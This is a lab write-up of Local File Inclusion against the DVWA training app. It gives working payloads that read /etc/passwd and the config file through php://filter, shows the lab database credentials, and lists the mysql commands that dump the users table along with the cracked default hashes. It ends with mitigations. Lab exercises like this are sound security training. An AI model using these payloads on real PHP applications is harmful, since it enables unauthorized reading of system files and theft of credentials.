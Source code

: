 
---

# File Inclusion – DVWA Low Security

**Tester:** Areebah Khan  
**Application:** DVWA v1.10 – Low Security  
**Date:** 07/09/25

## Objective
Demonstrate Local File Inclusion (LFI) and exploitation steps to retrieve sensitive files and database credentials.

---

## Methodology
Testing was performed on the File Inclusion (Low) page of DVWA. Input was submitted via the page parameter, which is directly passed into PHP’s include() function. Payloads were crafted to safely read system files and extract configuration data in a controlled lab environment.

Steps followed:
1. Confirm LFI vulnerability.
2. Read sensitive system files.
3. Extract DVWA configuration (database credentials).
4. Use credentials to access the database and dump user information.

---

## Exploitation Steps

---

<details> <summary>Step 1: Confirm LFI with /etc/passwd</summary>

**Payload:** /etc/passwd

**URL Encoded:** %2Fetc%2Fpasswd

**Observation:**
- Raw contents of /etc/passwd displayed on the page.
- Includes system users like root, www-data, mysql.
- Normal application logic should never reveal OS files.

**Impact:**
- Confirms Local File Inclusion vulnerability.
- Attackers can read arbitrary system files.

<img width="940" height="622" alt="image" src="https://github.com/user-attachments/assets/f1b61121-f4a7-4ca3-8ff7-05d5cd1c38c1" />


</details>

<details> <summary>Step 2: Extract DVWA Database Credentials</summary>

**Payload:** php://filter/convert.base64-encode/resource=../../config/config.inc.php

**URL Encoded:** php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D..%2F..%2Fconfig%2Fconfig.inc.php

**Observation:**
- DVWA configuration file returned as Base64.
- Decoding revealed database credentials:

$_DVWA['db_server']   = '127.0.0.1';

$_DVWA['db_database'] = 'dvwa';

$_DVWA['db_user']     = 'dvwa';

$_DVWA['db_password'] = 'p@ssw0rd';

**Impact:**
- Credentials allow direct access to DVWA database.
- Attacker can extract sensitive user information and escalate attacks.

<img width="940" height="642" alt="image" src="https://github.com/user-attachments/assets/2acee3b8-d00d-4d32-ac6c-4df384cbcce6" />


<img width="791" height="685" alt="image" src="https://github.com/user-attachments/assets/c10233d1-19bd-4c57-8a4d-96ef99125864" />

</details>

<details> <summary>Step 3: Log in to Database & Dump Users</summary>

**Steps:**

**Step 1:**
- Access MariaDB inside the Docker container:
docker exec -it <container_id> bash
mysql -u dvwa -p

**Step 2:**
- Switch to DVWA database
USE dvwa;
SHOW TABLES;

**Step 3:**
- Dump all users
SELECT * FROM users;

<img width="940" height="582" alt="image" src="https://github.com/user-attachments/assets/85bdeb40-85fc-451d-8adb-3f832c37d7c3" />


<img width="940" height="335" alt="image" src="https://github.com/user-attachments/assets/af39758e-1c03-466a-860c-629e822e26ba" />


**Observation:**
- Returned usernames, hashed passwords, and profile info.
- Example MD5 hashes:

admin: 5f4dcc3b5aa765d61d8327deb882cf99
gordonb: e99a18c428cb38d5f260853678922e03

- Decoded

| User    | MD5 Hash                         | Password |
| ------- | -------------------------------- | -------- |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | secret   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

**Impact:**
- Full access to all DVWA user accounts.
- MD5 hashes can be trivially cracked, exposing plaintext passwords.
- Demonstrates real-world risk of LFI leading to full database compromise.

  </details>

  ---
  
**Summary:**

- DVWA Low Security is vulnerable to LFI.
- Exploitation path:

Inject path via page parameter → read system files.

Extract DVWA database credentials using php://filter.

Use credentials to dump user accounts and passwords.

- Real-world implications: full compromise of sensitive data, credential theft, and potential application takeover.

  ---
**Recommendations/Mitigations:**
1. Validate and sanitize user input: never include files directly from untrusted input.
2. Disable LFI-sensitive PHP functions: disable allow_url_include, enforce open_basedir.
3. Set proper file permissions: restrict access to configuration files.
4. Use hashed passwords with salts: prevent trivial password retrieval.
5. Increase security levels in DVWA: test and prevent LFI exploitation at higher levels.

   ---
<img width="1316" height="131" alt="file_inclusion_flow" src="https://github.com/user-attachments/assets/ad48da1d-1313-4e5e-90fa-7800c9e45428" />


